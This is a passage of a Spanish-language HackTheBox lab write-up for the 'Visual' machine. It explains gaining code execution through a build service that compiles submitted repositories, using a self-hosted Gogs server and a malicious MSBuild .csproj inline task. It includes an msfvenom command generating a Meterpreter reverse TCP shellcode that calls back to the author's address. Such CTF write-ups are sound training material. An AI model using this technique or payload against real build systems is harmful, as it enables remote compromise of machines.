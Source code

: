![](@assets/HackTheBox/Visual/submit.png)

Al mandar cualquier URL que no contenga nada, devuelve que el repositorio no contiene un archivo `.sln`.

![](@assets/HackTheBox/Visual/sln.png)

Por lo que sospecho que por detrás estará usando **MSBuild** o algo por el estilo para compilar programas.

Encontré este artículo donde explica como obtener RCE a través de MSBuild.

- [https://www.hackingarticles.in/windows-exploitation-msbuild/](https://www.hackingarticles.in/windows-exploitation-msbuilg/)

Pero primero, para que nos reconozca la URL, me monto un servidor con GOGS para hostear el repositorio.

El setup es muy simple, te instalas gogs e inicializas el servicio, estará hosteando un servicio web por el puerto 3000 donde puedes configurar la base de datos, etc.

> La documentación y pasos de instalación se encuentran en [https://gogs.io/docs](https://gogs.io/docs)

![](@assets/HackTheBox/Visual/gogs.png)

Una vez seteado podemos crear el primer repositorio, para eso simplemente en una carpeta local corremos los siguientes comandos:

```bash
❯ touch README.md
❯ git add .
❯ git remote add origin http://localhost:3000/ziox/exploit.git
❯ git checkout -b master
❯ git commit -m "initial commit"
❯ git push origin master
```

Una vez creado podemos crear el projecto donde estará nuestro exploit.

```bash
❯ dotnet new console -n rce
❯ dotnet new sln -n rce
❯ dotnet sln add rce.csproj
```

Hay que reemplazar el archivo `.csproj` por este: [https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml](https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml)

Y cambiar el payload (shellcode) que generaremos usando msfvenom:

```bash
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=443 -f csharp
```

Lo demás se puede dejar por defecto.

Esta es la URL que tendremos que mandar a la máquina víctima.
